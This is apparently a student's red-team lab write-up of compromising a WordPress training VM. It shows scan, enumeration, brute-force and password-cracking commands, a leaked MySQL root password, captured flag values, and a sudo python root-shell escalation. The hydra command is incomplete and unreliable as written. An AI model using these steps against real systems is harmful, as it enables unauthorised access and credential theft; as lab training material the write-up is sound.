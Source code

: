 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sv 192.168.1.0/24
```
![](https://github.com/Nhiwins/Final-Project/blob/main/Images/nmap.PNG)

This scan identifies the services below as potential points of entry:
- Target 1 (192.168.1.110)
  - Port 22 ssh
  - Port 80 http
  - Port 111 rpcbind
  - Port 139 netbios-ssn
  - Port 445 netbios-ssn

The following vulnerabilities were identified on each target:
- Target 1
  - Weak User Password (High Severity)
  - User Enumeration (Medium Severity)
  - User Privelege Escalation (High Severity)

### Exploitation

The Red Team was able to penetrate Target 1 and retrieve the following confidential data:
- Target 1
  - `flag1`: b9bbcb33e11b80be759c4e844862482d
    - Users were enumerated with wpscan, Brute Force attack against weak password, then I exploited open port 22
      - wpscan was used to enumerate the users on Target 1
      - Command: `$ wpscan --url http://192.168.1.110/wordpress --enumerate u`
![](https://github.com/Nhiwins/Final-Project/blob/main/Images/wpscan.PNG)
   - User michael was targeted
   - Used hydra to brute force `$ hydra -l michael -p /usr/share/wordlists/dirb`
   - Capturing the first flag:
      - `ssh michael@192.168.1.110`
      - `cd /var/www/html`
      - `grep -ir flag1`

![](https://github.com/Nhiwins/Final-Project/blob/main/Images/flag1.PNG)
      
  - `flag2`: fc3fd58dcdad9ab23faca6e9a3e581c
    - The same process was used, but I used these commands:
      - `cd /var/www`
      - `ls' found flag2.txt

![](https://github.com/Nhiwins/Final-Project/blob/main/Images/flag2.PNG)

  - `flag3`: afc01ab56b50591e7dccf93122770cd2 and `flag4`: 715dea6c055b9fe3337544932f2941ce
    - To find MySql database login information, this command was used: `cat /var/www/html/wordpress/wp-config.php`

![](https://github.com/Nhiwins/Final-Project/blob/main/Images/mysql%20pword.PNG)
 
    - MySql was were flag3 and flag4 were found using these commands:
      - `mysql -u root -p'R@venSecurity'`
      - `SHOW DATABASES;`
      - `USE wordpress;`
      - `SHOW tables;`
      - `SELECT * FROM wp_posts;`
      
![](https://github.com/Nhiwins/Final-Project/blob/main/Images/flag3%20and%204.PNG)

  -Additionally, hashes for each user was found, and privelege escalation was exploited.
  
![](https://github.com/Nhiwins/Final-Project/blob/main/Images/mysql%20hashes.PNG)

    - I created a file with the hashes and used John the Ripper to crack them
      - `john hashes.txt -wordlist=/usr/share/wordlists/dirb/big.txt`
    - From there, I connected to Steven's account and open a python shell with root privelege
      - ssh steven@192.168.1.110
      - sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’
![](https://github.com/Nhiwins/Final-Project/blob/main/Images/last%20photo.PNG)
